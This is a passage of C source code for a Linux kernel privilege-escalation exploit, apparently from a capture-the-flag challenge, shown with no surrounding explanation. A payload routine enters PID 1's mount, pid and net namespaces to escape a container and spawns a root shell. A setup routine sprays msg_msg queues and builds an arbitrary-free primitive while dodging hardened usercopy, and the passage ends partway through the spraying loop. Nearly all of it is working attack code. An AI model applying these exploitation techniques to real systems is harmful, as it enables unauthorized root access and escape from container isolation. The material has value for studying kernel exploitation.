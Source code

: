 __attribute__((naked)) win()
{
    // thanks movaps sooooooo much
    asm volatile(
        "mov rbp, rsp;"
        "and rsp, -0xf;"
        "call dump_flag;"
        "mov rsp, rbp;"
        "ret;");
}

void pwned()
{
    write(1, "ROOOOOOOOOOOT\n", 14);
    setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
    setns(open("/proc/1/ns/pid", O_RDONLY), 0);
    setns(open("/proc/1/ns/net", O_RDONLY), 0);
    win();
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
    _exit(0);
}

void do_win(uint64_t kmalloc_512, uint64_t kmalloc_1024) 
{
    int size = 0x1000;
    int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    char pat[0x40] = {0};
    msg* message = (msg*)buffer;
    memset(buffer, 0x44, sizeof(buffer));
    int ready = 0;
    int ignition_target = -1;

    // doesn't matter as long as valid pointers
    uint64_t next_target = kmalloc_1024 + 0x440;
    uint64_t prev_target = kmalloc_512 + 0x440;

    // set up arb free primitive, avoid tripping hardened usercopy when re-alloc with msg_msg
    uint64_t free_target = kmalloc_1024 - 0x20;
    uint64_t make_sec_happy = kmalloc_512 - 0x20;

    stuff_4k(16);

    int targets[P_SPRAY] = {0};

    while (!ready)
    {
        for (int i = 0; i < P_SPRAY; i++) 
        {
            memset(buffer, 0x41+i, sizeof(buffer));
            targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
            send_msg(targets[i], message, size - 0x30, 0);
        }
